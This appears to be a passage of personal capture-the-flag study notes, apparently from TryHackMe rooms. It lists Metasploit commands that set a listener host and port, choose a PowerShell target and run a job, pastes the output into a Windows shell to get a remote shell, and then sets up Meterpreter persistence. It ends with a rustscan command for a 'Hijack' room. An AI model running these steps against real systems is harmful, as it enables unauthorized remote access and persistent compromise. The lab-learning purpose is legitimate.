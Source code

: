 > set lport 443 (**standard port for HTTPS**) or use: set tun0

> set lhost <*yourIP*> 

set the target to PSH (Powershell):

> show targets -> set target 2

Now set the payload:

![[uvtva114.bmp]]

**run -j**

![[6uv3u4dx.bmp]]

Now copy and paste the metasploit’s output in the windows shell


![[5dvymhdr.bmp]]

![[q54d2clo.bmp]]



Bonus: to gain persistence do:

> run persistence -X 

or try other:

> use windows/local/persistence

> use exploit/windows/local/s4u_persistence.

reference: [**_https://www.offensive-security.com/metasploit-unleashed/meterpreter-service/_**](https://www.offensive-security.com/metasploit-unleashed/meterpreter-service/)

![[889gl8vr.bmp]]


---

19/02/2024

# THM Hjacking

# 7°

https://tryhackme.com/room/hijack?path=undefined

24/02/2024

[ da fare su openvpn]

-> rustscan -a <*IP*>

![[3of9m8q2.bmp]]
